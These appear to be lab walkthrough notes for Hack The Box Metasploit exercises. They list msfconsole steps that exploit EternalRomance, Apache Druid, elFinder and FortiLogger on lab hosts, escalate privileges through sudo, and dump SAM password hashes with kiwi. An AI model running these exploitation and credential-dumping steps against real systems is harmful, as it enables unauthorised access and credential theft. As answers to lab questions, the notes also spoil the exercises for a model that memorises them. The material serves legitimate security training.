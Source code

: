 # Metasploit


Use the Metasploit-Framework to exploit the target with EternalRomance. Find the flag.txt file on Administrator's desktop and submit the contents as the answer


```bash
msf6> earch eternalromance type:exploit
msf6> set LHOST 10.10.14.110
msf6> set RHOST 10.129.197.195
msf6> exploit

meterpreter > cd C:\Users\Administrator\Desktop

meterpreter > cat flag.txt
 
```

Exploit the Apache Druid service and find the flag.txt file. Submit the contents of this file as the answer. 

```bash 
msf6> search Apache Druid
msf6> use 0
msf6> options
msf6> set LHOST 10.10.14.110
msf6> set RHOST 10.129.203.52
msf6> exploit

meterpreter > cd ..
meterpreter > cat flag.txt
```


# Jobs and sessions -i/-l

```bash

search elFinder
use 3
set LHOST 10.10.14.110
set RHOST 10.129.226.82
exploit

meterpreter > shell
sudo --version

CTR+Z
sessions -l
msf6> search Sudo version 1.8.31
msf6> use 0
msf6> set sessions 4
msf6> set LHOST 10.10.14.110
msf6> set LPORT 4445
msf6> run

meterpreter > shell 
cat /root/flag.txt

```

# hashdump and lsa_dump_sam

Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with? 
Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer. 

```bash

msf6> search FortiLogger
msf6> use 0
msf6> set LHOST 10.10.14.110
msf6> set LPORT 4446
msf6> set RHOSTS 10.129.3.230
msf6> exploit


meterpreter > shell
C:\Windows\system32> whoami

meterpreter > load kiwi
meterpreter > lsa_dump_sam

```

